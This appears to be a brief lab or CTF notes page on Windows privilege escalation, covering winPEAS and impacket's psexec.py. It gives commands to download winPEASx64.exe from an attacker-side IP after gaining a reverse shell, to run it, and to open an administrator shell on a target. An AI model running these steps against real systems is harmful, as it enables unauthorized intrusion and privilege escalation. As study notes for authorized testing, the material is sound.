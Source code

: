 There are several tools that can help us escalate privileges on Windows machines.

- [winPEAS.exe](#wpeas)
- [psexec.py](#pspy)


## winPEAS.exe <a name="wpeas"></a>

winPEAS.exe is an executable that, once we have a reverse shell, will display files with possible critical information in red.

Example:

1. First, download it using PowerShell:
````bash
wget http://10.10.14.9/winPEASx64.exe -outfile winPEASx64.exe
````
2.  Switch to PowerShell in your terminal: 
````bash
powershell
````
3. Finally, execute winPEAS.exe:
````bash
C:\Users\sql_svc\Downloads> .\winPEASx64.exe
````



## psexec.py <a name="pspy"></a>

- psexec.py is a tool from impacket that allows us to obtain a shell as an administrator.

````bash
python3 psexec.py administrator@{TARGET_IP}
````